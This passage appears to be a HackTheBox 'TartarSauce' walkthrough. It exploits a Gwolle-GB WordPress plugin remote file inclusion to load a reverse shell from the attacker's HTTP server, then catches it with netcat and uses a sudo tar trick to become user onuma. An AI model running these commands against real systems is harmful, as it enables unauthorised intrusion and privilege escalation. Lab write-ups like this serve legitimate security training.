 ```
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]

In order to exploit this vulnerability 'allow_url_include' shall be set to 1. Otherwise, attacker may still include local files and also execute arbitrary code. 

Successful exploitation of this vulnerability will lead to entire WordPress installation compromise, and may even lead to the entire web server compromise.
```

Following the exploit I renamed php-reverse-shell to `wp-load.php` and started a `python -m SimpleHTTPServer` and a nc listener on my machine.

Then I navigated to the url `http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8:8000/`

and I got a shell

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/tartarsauce]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.88] 35580
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
 12:56:35 up  2:27,  0 users,  load average: 0.05, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@TartarSauce:/$
```

## USER.TXT

Using `sudo -l` to check for sudo permissions

```bash
www-data@TartarSauce:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

After a little search I found a way to become user `onuma` with the help of `bin/tar`

```bash
www-data@TartarSauce:/bin$ sudo -u onuma /bin/tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
h <&2 1>&2"'a /bin/tar xf /dev/null -I '/bin/sh -c "s 
$ id
id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
onuma@TartarSauce:/bin$
```
